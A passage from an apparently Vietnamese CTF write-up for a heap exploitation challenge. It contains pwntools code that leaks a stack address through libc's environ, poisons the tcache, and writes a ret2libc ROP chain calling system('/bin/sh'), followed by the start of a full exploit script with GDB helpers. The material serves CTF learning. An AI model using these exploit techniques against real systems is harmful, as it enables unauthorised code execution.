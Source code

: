 ```
buy(0x10, b'a'*0x10)
buy(0x10, p64(0) + p64(libc.sym.environ))

pop_rdi = 0x0000000000401563

read()
ru(b'Content: ')
stack_leak = u64(r(6) + b'\x00\x00') - 336
log.info(hex(stack_leak))
```
- Sau đó ta sẽ ret2libc qua ret read
```
buy(0x20, b'a'*0x20)
erase()
write(b'c'*0x20)
erase()
write(p64(bss))
buy(0x20, b'a'*0x20)
buy(0x20, p64(0) + p64(stack_leak))

pl = p64(pop_rdi + 1) + p64(pop_rdi) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system'])
# GDB()
write(pl)
```
![image](https://hackmd.io/_uploads/ryz-mGCCye.png)

## Fullscript
```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)
slan = lambda msg, num: sla(msg, str(num).encode())
san = lambda msg, num: sa(msg, str(num).encode())
sln = lambda num: sl(str(num).encode())
sn = lambda num: s(str(num).encode())
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()

def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript=f'''
        user-pwndbg
        b* main +241
        b* main +329
        b* main +488
        b* main +192
        b* main +407
        c
        ''')
```